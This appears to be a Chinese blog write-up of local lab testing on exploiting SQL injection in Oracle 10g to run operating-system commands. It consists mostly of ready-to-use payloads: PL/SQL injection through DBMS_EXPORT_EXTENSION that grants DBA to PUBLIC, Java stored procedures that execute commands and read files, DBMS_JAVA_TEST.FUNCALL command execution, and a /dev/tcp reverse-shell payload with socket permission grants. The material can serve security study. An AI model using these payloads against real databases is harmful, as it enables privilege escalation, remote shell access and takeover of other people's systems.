0x01 Oracle安装
CentOS 7 安装oracle10g，装了一天，特此记录
0x02 命令执行
本文测试环境均为：
CentOS Linux release 7.2.1511 (Core)
Oracle Database 10g Enterprise Edition Release 10.2.0.1.0 - 64bit Production
执行方式很多种，这边只研究Oracle10g，并且本地实测成功的
DBMS_EXPORT_EXTENSION()dbms_xmlquery.newcontext()DBMS_JAVA_TEST.FUNCALL()
注意：注入时需去除末尾分号;
¶方法1. DBMS_EXPORT_EXTENSION()
- 影响版本：Oracle 8.1.7.4, 9.2.0.1-9.2.0.7, 10.1.0.2-10.1.0.4, 10.2.0.1-10.2.0.2, XE(Fixed in CPU July 2006)
- 权限：None
- 详情：这个软件包有许多易受PL/SQL注入攻击的函数。这些函数由SYS拥有，作为SYS执行并且可由PUBLIC执行。因此，如果SQL注入处于上述任何未修补的Oracle数据库版本中，那么攻击者可以调用该函数并直接执行SYS查询。
提权：该请求将导致查询"GRANT DBA TO PUBLIC"以SYS身份执行。 因为这个函数允许PL / SQL缺陷（PL / SQL注入）。一旦这个请求成功执行，PUBLIC获取DBA角色，从而提升当前user的特权
1 | select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant dba to public'''';END;'';END;--','SYS',0,'1',0) from dual |
¶使用java
¶（1) 创建Java库
1 | select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args){try{BufferedReader myReader= new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}public static String readFile(String filename){try{BufferedReader myReader= new BufferedReader(new FileReader(filename)); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'''';END;'';END;--','SYS',0,'1',0) from dual |
¶(2) 赋予Java权限
1 | select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''begin dbms_java.grant_permission(''''''''PUBLIC'''''''', ''''''''SYS:java.io.FilePermission'''''''',''''''''<>'''''''', ''''''''execute'''''''');end;'''';END;'';END;--','SYS',0,'1',0) from dual |
¶(3) 创建函数
1 | select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name''''''''LinxUtil.runCMD(java.lang.String) return String'''''''';'''';END;'';END;--','SYS',0,'1',0) from dual |
¶(4) 赋予函数执行权限
1 | select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant all on LinxRunCMD to public'''';END;'';END;--','SYS',0,'1',0) from dual |
¶(5) 执行
1 | select sys.LinxRunCMD('/bin/bash -c /usr/bin/whoami') from dual |

¶方法2. dbms_xmlquery.newcontext()
此方法成功前提
- 影响版本：Oracle 8.1.7.4, 9.2.0.1-9.2.0.7, 10.1.0.2-10.1.0.4, 10.2.0.1-10.2.0.2, XE(Fixed in CPU July 2006)
即方法1 中DBMS_EXPORT_EXTENSION存在漏洞情况下，否则赋予权限时无法成功
¶(1) 创建java包
1 | select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args) {try{BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'';commit;end;') from dual; |
通过以下命令可以查看all_objects内部改变：
1 | select * from all_objects where object_name like '%LINX%' or object_name like '%Linx%' |

¶(2) 赋予当前用户java权限
1 | --当前用户查看 |
查看可用的java权限列表，通过以下命令查看赋权情况
1 | select * from user_java_policy where grantee_name='YY'; |

若赋权失败，最后执行命令时会报如下错误

此处很坑，前后折腾，不知道哪里问题，有时可以执行命令，有时不能，网上找了太多赋权命令，不知是哪一条成功，导致我恢复快照不下10次测试问题到底出在哪。
最后找到上述查看赋权情况命令，才找出哪条赋权命令能成功。所以，坑在哪里？
¶T00ls
1 | select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''begin dbms_java.grant_permission( ''''SYSTEM'''', ''''SYS:java.io.FilePermission'''', ''''<<ALL FILES>>'''',''''EXECUTE'''');end;''commit;end;') from dual; |

显而易见，根本没赋权成功
关于上述赋权失败，评论里作者回复使用下述命令
1 | select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''grant javauserpriv to YY''commit;end;') from dual; |
显然，一样的结果
¶随风’s blog
1 | select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''begin dbms_java.grant_permission(''''''''PUBLIC'''''''', ''''''''SYS:java.io.FilePermission'''''''',''''''''<<ALL FILES>>'''''''',''''''''execute'''''''');end;'''';END;'';END;--','SYS',0,'1',0) from dual; |

可见，两种方式均无果
¶(3) 创建函数
1 | select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name ''''LinxUtil.runCMD(java.lang.String) return String''''; '';commit;end;') from dual; |
判断是否创建成功
1 | select OBJECT_ID from all_objects where object_name ='LINXRUNCMD' |

也可通过查看all_objects内部改变判断
1 | select * from all_objects where object_name like '%LINX%' or object_name like '%Linx%' |

若想删除创建的函数，通过以下命令删除
1 | drop function LinxRunCMD |
¶(4) 执行
1 | select LinxRunCMD('id') from dual |
恭喜！！！


¶方法3. DBMS_JAVA_TEST.FUNCALL()
¶使用java privileges
- 影响版本： 10g R2, 11g R1, 11g R2
- 权限：Java Permissions.
1 | Select DBMS_JAVA_TEST.FUNCALL('oracle/aurora/util/Wrapper','main','/bin/bash','-c','pwd > /tmp/pwd.txt') from dual; |
执行时报如下错，貌似没赋权？实际上赋权后还是一样的错误

但不影响命令的执行

该方式无回显，在注入时不太方便利用，但可通过此方式反弹 : )
0x03 反弹shell
网上铺天盖地windows的payload，linux下根本无法反弹，自己手动测试java代码反弹，然后放入oracle Sql
java反弹代码如下：
1 | import java.io.*; |
1 | #编译 |
¶1. 创建java代码
1 | select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace and compile java source named "shell" as import java.io.*;import java.net.*;public class shell {public static void run() throws Exception{String[] aaa={"/bin/bash","-c","exec 9<> /dev/tcp/127.0.0.1/8080;exec 0<&9;exec 1>&9 2>&1;/bin/sh"};Process p=Runtime.getRuntime().exec(aaa);}}'''';END;'';END;--','SYS',0,'1',0) from dual |
¶2. 赋予java权限
1 | select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''begin dbms_java.grant_permission( ''''''''PUBLIC'''''''', ''''''''SYS:java.net.SocketPermission'''''''', ''''''''<>'''''''', ''''''''*'''''''' );end;'''';END;'';END;--','SYS',0,'1',0) from dual |
¶3. 创建函数
1 | select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT" .PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace function reversetcp RETURN VARCHAR2 as language java name ''''''''shell.run() return String''''''''; '''';END;'';END;--','SYS',0,'1',0) from dual |
¶4. 赋予函数执行权限
1 | select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT" .PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant all on reversetcp to public'''';END;'';END;--','SYS',0,'1',0) from dual |
¶5. 反弹shell
1 | select sys.reversetcp from dual |

0x04 参考链接
Hacking Oracle from the Web
Execute os command in Oracle Database
Oracle Sql注入利用方法
对ＸＸ站手工oracle注入到系统shell